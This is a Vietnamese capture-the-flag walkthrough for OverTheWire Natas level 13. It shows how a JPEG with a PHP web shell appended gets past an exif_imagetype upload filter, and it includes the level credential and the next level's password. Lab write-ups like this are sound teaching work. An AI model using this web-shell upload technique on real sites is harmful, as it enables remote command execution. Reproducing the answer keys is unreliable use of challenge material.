


# Natas Level 13

## 🔑 Mục tiêu
Tìm password cho level tiếp theo.

**URL: http://natas13.natas.labs.overthewire.org**     
**Credential: natas13:*trbs5pCjCrkuSknBBKHhaBxq6Wm1j3LC***

## 🛠️ Các bước thực hiện
1. Tổng quan trang web:    


==>Từ mô tả có thể thấy giờ đã có thêm filter để chỉ cho phép file image mới được up lên rồi!.

2. Source code:
```PHP
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```

-Dòng code: 
```bash
else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    }
```
+hàm ```exif_imagetype()``` sẽ đọc vài byte đầu (magic bytes) của file và xác định xem nó có phải file ảnh không

==>Dùng ```polyglot file``` để bypass this.

(Cho ai chưa biết thì polyglot đơn giản là 1 file nhưng mà hợp lệ với nhiều định dạng cùng lúc)

-Follow command:   
```bash
wget https://cdn-media.sforum.vn/storage/app/media/anh-dep-83.jpg
cat cat anh-dep-83.jpg > shell.php
echo "<?php system(\$_GET['x']); ?>" >> shell.php
```

-Giờ file ```shell.php``` có lẽ đã hợp lệ, thử upload lên thử:   



==>OKE, và nhớ rằng nếu file ảnh mà to quá thì xóa bớt content trong đó đi để bypass hàm ```filesize()``` nhé ~.

-Giờ làm như level trước và lấy key thui.

## 📌 Key: ```z3UYcr4v4uBpeX8f7EZbMHlzK4UR2XtQ```